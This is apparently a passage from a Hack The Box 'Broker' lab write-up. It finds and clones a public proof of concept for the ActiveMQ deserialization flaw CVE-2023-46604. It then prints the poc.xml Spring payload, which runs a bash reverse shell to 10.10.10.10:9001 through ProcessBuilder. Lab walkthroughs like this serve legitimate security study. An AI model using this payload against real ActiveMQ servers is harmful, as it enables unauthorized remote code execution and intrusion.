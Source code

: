 Google : `activemq 5.15.15 exploit`

> https://www.cvedetails.com/cve/CVE-2023-46604/


![](/assets/obsidian/9cf441e5d9235efd6e909be2f390e0c1.png)

Google : `CVE-2023-46604 poc`

> https://github.com/evkl1d/CVE-2023-46604

```bash
git clone https://github.com/evkl1d/CVE-2023-46604
cd CVE-2023-46604
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Broker/exploit/CVE-2023-46604]
└─$ ls
exploit.py  poc.xml  README.md
```

The exploit utilize unsafe deserialization to create `java.lang.ProcessBuilder()`

![](/assets/obsidian/c21938192f63cd58913191831fc5593c.png)

#### Exploit

> poc.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
